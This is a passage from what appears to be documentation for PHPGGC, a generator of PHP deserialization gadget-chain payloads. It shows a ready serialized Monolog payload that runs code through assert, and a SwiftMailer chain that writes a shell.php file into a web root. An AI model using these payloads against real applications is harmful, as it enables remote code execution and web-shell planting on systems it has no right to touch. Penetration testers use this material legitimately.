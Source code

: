 ```
```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters($parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object($object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized($serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:
